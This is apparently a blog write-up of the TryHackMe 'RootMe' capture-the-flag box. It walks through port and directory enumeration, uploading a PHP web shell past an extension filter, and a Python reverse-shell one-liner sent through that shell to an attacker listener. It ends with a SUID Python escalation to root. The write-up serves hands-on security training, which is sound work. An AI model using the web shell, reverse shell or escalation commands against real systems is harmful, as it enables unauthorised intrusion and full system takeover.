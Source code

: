 ```yaml
---
toc: true
comments: true
title: TryHackMe - RootMe
layout: post
title: TryHackMe - RootMe
date: 2023-10-03 20:45 -0300
categories: [TryHackMe, Easy, CTF]
tags: [FileUpload, PrivEsc]    
image: /assets/Posts/RootMe/11d59cb34397e986062eb515f4d32421.png
---
```


RootMe is a straightforward box over at THM. In this write-up, we'll cover the basics: enumerating the box, getting a reverse shell, and using SUID binaries to up our privileges.

Just a heads-up, any flags you come across in this write-up will be blurred to keep things fair and challenging for everyone in the room. 

## Enumeration
Let's kick things off by scanning for open ports. Oh, and if you notice the IP changing in this write-up, that's on me – I accidentally flipped the switch on the machine. Oops! 😄

```shell
$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.1.107
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-07 08:06 EST
Initiating SYN Stealth Scan at 08:06
Scanning 10.10.1.107 [65535 ports]
Discovered open port 80/tcp on 10.10.1.107
Discovered open port 22/tcp on 10.10.1.107
Completed SYN Stealth Scan at 08:07, 22.15s elapsed (65535 total ports)
Nmap scan report for 10.10.1.107
Host is up, received user-set (0.25s latency).
Scanned at 2023-11-07 08:06:47 EST for 22s
Not shown: 63595 closed tcp ports (reset), 1938 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
We've got two ports open: 80 and 22. While we let the vulnerability script do its thing, it's time to roll up our sleeves and dive into port 80 via our  browser. 

We could run the following script to find CVEs if we are a bit stuck but lets try to keep it basic.

```shell
$ sudo nmap -p22,80- -T4 -v -Pn -sSVC --script=vuln 10.10.1.107
```

Additionally we will run a fuzzing scan for interesting directories. 

```shell
$ gobuster dir -u http://10.10.1.107 -w /usr/share/wordlists/SecLists/Fuzzing/fuzz-Bo0oM.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.1.107
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Fuzzing/fuzz-Bo0oM.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.ht_wsr.txt          (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htaccess-dev        (Status: 403) [Size: 276]
/.htaccess-local      (Status: 403) [Size: 276]
/.htaccess.BAK        (Status: 403) [Size: 276]
/.htaccess-marco      (Status: 403) [Size: 276]
/.htaccess.bak        (Status: 403) [Size: 276]
/.htaccess.orig       (Status: 403) [Size: 276]
/.htaccess.old        (Status: 403) [Size: 276]
/.htaccess.sample     (Status: 403) [Size: 276]
/.htaccess.bak1       (Status: 403) [Size: 276]
/.htaccess.save       (Status: 403) [Size: 276]
/.htaccess.txt        (Status: 403) [Size: 276]
/.htaccess_extra      (Status: 403) [Size: 276]
/.htaccess_orig       (Status: 403) [Size: 276]
/.htaccess_sc         (Status: 403) [Size: 276]
/.htaccessBAK         (Status: 403) [Size: 276]
/.htaccessOLD         (Status: 403) [Size: 276]
/.htaccessOLD2        (Status: 403) [Size: 276]
/.htaccess~           (Status: 403) [Size: 276]
/.htgroup             (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htusers             (Status: 403) [Size: 276]
/.htpasswd_test       (Status: 403) [Size: 276]
/.htpasswd-old        (Status: 403) [Size: 276]
/.httr-oauth          (Status: 403) [Size: 276]
/.htpasswds           (Status: 403) [Size: 276]
/index.php            (Status: 200) [Size: 616]
/js/                  (Status: 200) [Size: 957]
/panel                (Status: 301) [Size: 310] [--> http://10.10.1.107/panel/]
/panel/               (Status: 200) [Size: 732]
/server-status/       (Status: 403) [Size: 276]
/uploads/             (Status: 200) [Size: 742]
Progress: 4842 / 4843 (99.98%)
===============================================================
Finished
===============================================================
```

We got two interesting directories /panel/ and /uploads/

With that we can start checking the site.

## Explotation

![Desktop View](/assets/Posts/RootMe/1.png){: width="972" height="589" }
_Rootme index_

![Desktop View](/assets/Posts/RootMe/2.png){: width="972" height="589" }
_Rootme Panel_

The site features a single file upload panel that appears to accept all extensions except .php. This gives us a clue – let's try bypassing that filter and uploading a reverse shell. To do this, we'll employ Burp Suite Intruder and test various extensions to see what works.

Our shell code will look like this (without the . before the ?):

```
<.?php system($_GET['cmd']);?>
```

The following screenshot illustrates the intercepted file upload process:

![Desktop View](/assets/Posts/RootMe/33.png){: width="972" height="589" }
_Intruder file upload extension bruteforce_

Following our upload attempt, the /uploads/ folder will be filled with various reverse shells. While most of them trigger file downloads, the one with a .php5 extension does the trick. With this shell in hand, we can explore the server's content by appending the query parameter ?cmd=ls to the URL.

![Desktop View](/assets/Posts/RootMe/44ReversedWithLS.png){: width="972" height="589" }
_Ls Working_

Now that we have a functioning shell, the next step is to establish a connection back to us. For this, we can visit a handy cheatsheet site like https://alamot.github.io/reverse_shells/ and simply copy a reverse shell script. In this instance, I chose the Python one, a common choice for boxes.

For that we open a listener port using netcat and modify the ip and port in the provided shell to connect back to us:

```shell
nc -lvp 8081 
```

```url
http://10.10.1.107/uploads/test.php5?cmd=python -c "import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('LHOST',LPORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv('HISTFILE','/dev/null');pty.spawn(['/bin/bash','-i']);s.close();exit();"
```

After establishing our reverse shell, stabilizing it is crucial for a smoother exploration of the box. You can achieve this stability by using the following command:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

This Python command spawns a more interactive and user-friendly shell.

With a stable shell, we can now search for the 'user.txt' flag using the following command:

```shell
find / -type f -iname user.txt 2> /dev/null
```

find: Initiates a search operation.
/: Specifies the starting directory for the search (root directory in this case).
-type f: Filters the search to files only.
-iname user.txt: Looks for files with the name 'user.txt' while ignoring letter case.
2> /dev/null: Redirects and suppresses any error messages, ensuring a cleaner output without distractions."

## Priv Esc

We also perform a similar search to identify potential privilege escalation opportunities:

```shell
find / -user root -perm /4000 2>/dev/null
```

Here's what each part of this command does:
/: Scans the entire device, starting from the root directory.
-type f: Restricts the search to files (ignoring directories).
-user root: Filters for files owned by the 'root' user.
-perm -4000: Searches for files with a minimum privilege level of 4000. In numerical representation, 4000 indicates that the SUID bit is set on the file, which is a common indicator of privilege escalation possibilities.
2>/dev/null: This part is optional but helps maintain a clean output by redirecting and suppressing any error messages, ensuring that any errors are discarded.

Alternatively, you can use the convenient linpeas.sh script, which automates the search for various misconfigurations, including the identification of files with the SUID bit set. In either case, the end result is the discovery of Python running with SUID privileges

![Desktop View](/assets/Posts/RootMe/linepeass.png){: width="972" height="589" }
_Linepeas_

After that we just need to scale to root using python. For that we go to gtfobins (as allways) and check for suid exploits: https://gtfobins.github.io/gtfobins/python/#suid 

```shell
bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
```

## Conclusions 

This RootMe adventure served as an excellent learning experience, emphasizing the importance of thorough enumeration and the power of script-assisted enumeration in penetration testing.

_Keep hacking_  🙈🙉🙊 

